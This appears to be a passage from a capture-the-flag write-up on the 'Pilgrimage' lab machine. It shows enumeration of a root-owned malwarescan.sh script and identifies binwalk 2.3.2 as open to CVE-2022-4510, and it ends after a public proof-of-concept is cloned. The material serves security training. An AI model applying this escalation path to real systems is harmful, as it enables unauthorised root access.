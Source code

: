 There is a `malwarescan.sh` process running. We can check with what privileges it runs as follows:

```bash
emily@pilgrimage:~$ ps -ef | grep malware
root         749       1  0 Jan18 ?        00:00:00 /bin/bash /usr/sbin/malwarescan.sh
```

This process is running as `root`. Let's find out what exactly it does:

```bash
# checking script's location
emily@pilgrimage:~$ find / -type f -name malwarescan.sh 2>/dev/null
/usr/sbin/malwarescan.sh
# checking script's content
emily@pilgrimage:~$ cat /usr/sbin/malwarescan.sh
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
```

It appears to do some checks using `binwalk`. So we can check `binwalk`'s version to see if this is the case of another out-of-date app:

```bash
emily@pilgrimage:~$ binwalk -h

Binwalk v2.3.2
Craig Heffner, ReFirmLabs
https://github.com/ReFirmLabs/binwalk

Usage: binwalk [OPTIONS] [FILE1] [FILE2] [FILE3] ...
<SNIP>
```

It seems there is also a known **path traversal** vulnerability which lead to RCE: [CVE-2022-4510](https://nvd.nist.gov/vuln/detail/CVE-2022-4510) and a ready-made [PoC](https://github.com/adhikara13/CVE-2022-4510-WalkingPath)! Since, the `malwarescan.sh` runs with `root` permissions, and uses `binwalk`, if we manage to exploit `binwalk` to gain RCE, we will gain a root shell. Let's try to do that:

> More on [CVE-2022-4510](https://onekey.com/blog/security-advisory-remote-command-execution-in-binwalk/).

```bash
$ sudo git clone https://github.com/adhikara13/CVE-2022-4510-WalkingPath
Cloning into 'CVE-2022-4510-WalkingPath'...
remote: Enumerating objects: 12, done.
remote: Counting objects: 100% (12/12), done.
remote: Compressing objects: 100% (10/10), done.
remote: Total 12 (delta 3), reused 7 (delta 2), pack-reused 0
Receiving objects: 100% (12/12), 7.28 KiB | 7.28 MiB/s, done.
Resolving deltas: 100% (3/3), done.

$ cd CVE-2022-4510-WalkingPath/
$ ls
LICENSE  README.md  walkingpath.py
$ sudo chmod +x walkingpath.py
```